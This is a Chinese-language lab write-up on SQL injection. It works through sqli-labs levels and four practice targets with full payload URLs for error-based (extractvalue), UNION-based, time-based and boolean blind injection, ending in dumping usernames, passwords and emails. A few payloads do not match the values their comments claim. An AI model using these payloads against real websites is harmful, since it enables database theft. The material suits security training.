

- 获取字段名(我们只需要获取到数据库名和表名即可,然后用其它方式获取数据)

```sql
http://192.168.77.131/master/Less-1/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x3a)) --+
```

- 使用union获取所有数据

```sql
http://192.168.77.131/master/Less-1/?id=-1' UNION SELECT 1, (SELECT group_concat(id, 0x3a, username, 0x3a, password SEPARATOR 0x0a) FROM security.users), 3 --+
```

### 时间盲注(这里使用yakit,个人比较喜欢)

- 获取``数据库名长度``-->8

```
http://192.168.77.131/master/Less-1/?id=1'and if(length(database())=8,sleep(5),0) --+ 
```

- 获取``数据库名字``-->security

```sql
//获取数据库名字if(ascii(substring((select database()),1,1))=115,sleep(5),0)
//database(),1,1 第一个``1``表示从数据库名称的第一个字符开始,第二个``1``表示要截取的字符长度为1，即只获取第一个字符

http://192.168.77.131/master/Less-1/?id=1'and if(ascii(substring((select database()),1,1))=115,sleep(5),0)--+
```



- 获取该``数据库中表的数目``-->4

```sql
http://192.168.77.131/master/Less-1/?id=1'and if((select count(*) from information_schema.tables where table_schema=database())=4,sleep(5),0)--+
```

- 获取第四张表的``表名长度``-->5

```sql
http://192.168.77.131/master/Less-1/?id=1' AND IF((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 3,1) = 5, SLEEP(5), 0) --+
```

- 获取第四张表的``表名``(构造payload爆破)

```sql
http://192.168.77.131/master/Less-1/?id=1'and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),1,1))=101,sleep(5),0) --+
```


- 依次为:117 115 101 114 115 即:``users``

- 这里就写详细些,把字段名也爆破出来

```sql
//users表的字段数-->3 也即是说在users表中有三个字段
http://192.168.77.131/master/Less-1/?id=1'and if((select count(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1))=3,sleep(5),0) --+
```

- 获取``字段数``

```sql
//第一个字段长度为2
http://192.168.77.131/master/Less-1/?id=1' and if((select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 0,1)=2,sleep(5),0) --+
```

```sql
//第二个字段长度为8
http://192.168.77.131/master/Less-1/?id=1' and if((select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1)=8,sleep(5),0) --+
```

```sql
//第三个字段长度为8
http://192.168.77.131/master/Less-1/?id=1' and if((select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 2,1)=8,sleep(5),0) --+
```

- 开始爆破``users``每一个字段名

```sql
//获取第一个字段名 105 100 -->对应id
http://192.168.77.131/master/Less-1/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 0,1),1,1))=97,sleep(5),0) --+
```



```sql
//获取第二个字段名 对应 117 115 101 114 110 97 109 101-->username
http://192.168.77.131/master/Less-1/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1),1,1))=97,sleep(5),0) --+
```



```sql
//获取第三个字段名 对应 112 97 115 115 119 111 114 100 -->password
http://192.168.77.131/master/Less-1/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1),2,1))=97,sleep(5),0) --+
```



- 至此``数据库名:security``,``表名:users``,``字段名:id,username,password``均获取到了,数据就不展示了!

# 实例

### 练习1

- 前面两次练习写的比较详细了,所以这里只展示过程

- 目标url:http://192.168.100.40:64879/string.php?id=1


- 获取当前网页的``数据库名``

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select database()),0x3a)) --+
```


- 获取当前网页的数据库的``表名``

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a)) --+
```


- 获取当前网页的``emails表``中的所有字段

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_name='emails' and table_schema=database()),0x3a)) --+
```


- 获取``emails表中的所有数据``

```
http://192.168.100.40:64879/string.php?id=-1'union select 1,(select group_concat(id,0x3a,email_id) from security.emails),3 --+
```


------

### 练习2

- 目标url:http://1.14.28.17:32271/number.php?id=1

- 查看数据库的列数``order by`` 

```sql
http://1.14.28.17:32271/number.php?id=1 order by 3 --+
http://1.14.28.17:32271/number.php?id=1 order by 4 --+
```

发现``3``是正常的,而``4``报错

- 开始尝试

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,3--+
```


- 查看当前``数据库名``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,database(),3--+
```


- 查看``表名``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```


- 查看``emails表``中的字段名

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails' and table_schema='security'--+
```


- 查看``所有数据``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(id,0x3a,email_id) from security.emails
```


------

### 练习3

- 目标url:http://1.14.28.17:45257/get.php?id=1
- 这关判断正确了就会显示``you are in....``截图我就不展示了
- 判断当前``数据库表的个数`` -->4

```sql
http://1.14.28.17:45257/get.php?id=1'and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

- 获取第一个``表名长度``-->6

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6 --+
```

- 获取第二个``表名长度``-->8

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)=8 --+
```

- 获取第三个``表名长度``-->7

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 2,1)=7 --+
```

- 获取第四个``表名长度``-->5

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 3,1)=5 --+
```

- 获取第四个``表名``--> 117 115 101 114 115 即:``users``


- 获取``字段数``-->3

```sql
//代表有users表中有三个字段
http://192.168.77.131/master/Less-8/?id=-1'or (select count(*) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1))=3 --+
```

- 获取``第一个字段长度``-->2

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 0,1)=2 --+
```

- 获取``第二个字段长度``-->8

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1)=8 --+
```

- 获取``第三个字段长度``-->8

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 2,1)=8 --+
```

- 开始爆破每一个``字段名``-->id

```sql
//爆破第一个字段的第一个字符-->105
http://192.168.77.131/master/Less-8/?id=1' AND (select(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() LIMIT 3,1) limit 0,1),1,1))=105)) --+
```

```sql
//爆破第二个字段的第一个字符-->100
http://192.168.77.131/master/Less-8/?id=1' AND (select(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() LIMIT 3,1) limit 0,1),2,1))=105)) --+
```

- 获取数据也是一样的,相对比较繁琐就不展示了

------

### 练习4

- 目标url:http://1.14.28.17:26053/post.php

- 刚开始拿到网页确实觉得有点难,没有任何回显,无从下手,无奈选择使用yakit进行抓包





- 注入成功后会返回一个``./images/flag.jpg``图片,失败则是``./images/slap``,通过这一步就能判断出``数据库名字长度``-->8
- 有了这个思路那么就是说,只要我语句判断是对的那么都会返回``./images/flag.jpg``,由此剩余步骤跟前面布尔盲注大同小异
- 这里由于时间关系,我只展示如何获取``数据库名``



- 构造pyload,爆破获取得到-->115 101 99 117 114 105 116 121 即为:``security``
- 到此本次注入就结束了,剩下的不再演示,因为都很类似,只是相对繁琐!

